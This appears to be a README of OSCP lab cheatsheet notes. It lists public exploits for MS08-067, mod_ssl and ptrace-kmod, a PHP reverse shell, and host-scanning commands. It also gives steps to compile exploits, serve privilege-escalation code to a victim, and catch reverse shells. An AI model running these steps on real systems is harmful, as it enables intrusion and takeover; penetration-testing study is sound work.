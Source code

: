 # cheatsheets and exploit code and scripts / OSCP
 

**python ms08-067 remote exploit** (https://www.exploit-db.com/exploits/40279)

edit `shellcode` variable with payload and adjusts NOPS to fit it

---

**ptrace-kmod Linux privilege escalation** Works for 2.2.x and 2.4.x kernels. (https://www.exploit-db.com/exploits/3) 
```c
// #include <linux/user.h>
#include <sys/user.h>
#include <sys/reg.h>
```

---

**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)
commented out #COMMAND2 to download, compile and execute privilege escalation using ptrace-kmod.c

1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`

---

**php reverse shell** (http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`

1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
--- 

**Onetwopunch.sh** (https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Wrapper for unicornscan (fast port scan) and nmap (vuln script scan)

1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
